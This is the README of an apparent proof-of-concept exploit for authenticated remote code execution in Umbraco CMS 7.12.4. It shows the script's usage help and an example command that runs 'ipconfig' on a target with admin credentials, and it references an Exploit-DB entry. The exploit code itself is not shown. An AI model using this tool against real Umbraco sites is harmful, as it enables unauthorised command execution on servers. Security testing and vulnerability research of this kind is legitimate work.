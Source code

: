 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] --user USER --password PASS --host URL --command CMD

Umbraco authenticated RCE

optional arguments:
  -h, --help                show this help message and exit
  --user USER, -u USER      username / email
  --password PASS, -p PASS  password
  --host URL, -i URL        root URL
  --command CMD, -c CMD     command
```

Example:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) and with stdout display.

Tested with python 3.8.
